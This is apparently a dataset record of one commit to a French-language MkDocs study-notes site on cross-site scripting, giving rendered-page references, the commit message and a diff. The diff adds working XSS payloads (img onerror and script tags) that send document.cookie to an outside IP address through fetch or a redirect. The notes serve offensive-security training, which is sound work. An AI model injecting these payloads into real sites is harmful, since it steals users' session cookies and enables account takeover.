

Before and after one commit to GaelleBriet/web200-notes, an MkDocs documentation site: the page built from docs/vulns/14-xss.md, in a window 1280 px wide and 900 px high, scrolled down 2441 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update XSS vulnerability documentation with payloads
Added example payloads for XSS vulnerabilities in HTML.

````diff
--- a/docs/vulns/14-xss.md
+++ b/docs/vulns/14-xss.md
@@ -119,6 +119,10 @@ python3 -m http.server 80
 ```html
 <!-- Payload injecté dans la cible -->
 <script src="http://KALI_IP/xss.js"></script>
+<img src=x onerror="fetch('http://192.168.49.64/?c='+document.cookie)"> //fetch dans onerror peut etre bloqué par les CORS
+<img src=x onerror="document.location='http://192.168.49.64/?c='+document.cookie">
+
+<script>document.location='http://192.168.49.64/?c='+document.cookie</script>
 ```
 
 **Lire les logs** pour confirmer exécution :
````
